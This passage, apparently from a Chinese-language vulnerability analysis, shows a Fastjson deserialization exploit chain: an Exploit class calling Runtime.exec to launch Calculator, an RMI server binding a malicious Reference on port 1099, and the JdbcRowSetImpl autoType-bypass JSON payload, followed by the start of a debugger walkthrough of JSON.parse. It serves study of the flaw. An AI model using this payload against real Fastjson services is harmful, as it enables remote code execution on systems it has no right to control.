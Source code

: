 ```
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        `}` catch (IOException e) `{`
            e.printStackTrace();
        `}`
        return "";
    `}`

    public static void main(String[] args) `{`
        exec("123");
    `}`
`}`
```

> rmiServer.java

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class rmiServer `{`
    public static void main(String[] args) throws Exception `{`
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("Exploit", "Exploit", "http://localhost:1099/");
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        System.out.println("service bind at 1099");
        registry.bind("Exploit", wrapper);
    `}`
`}`
```

```
`{`
    "name":`{`
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    `}`,
    "xxxx":`{`
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://localhost:1099/Exploit",
        "autoCommit":true
    `}`
`}`
```



## 漏洞触发流程

在JSON.parse处下断点，单步进入到JSON这个类中，开始了fastjson库的解析过程

经过几个parse函数(java中，一个函数由函数名和函数参数唯一确定，也就是java中的函数签名)，虽然同为parse这个函数，但是函数参数不同，故进入到不同的函数中

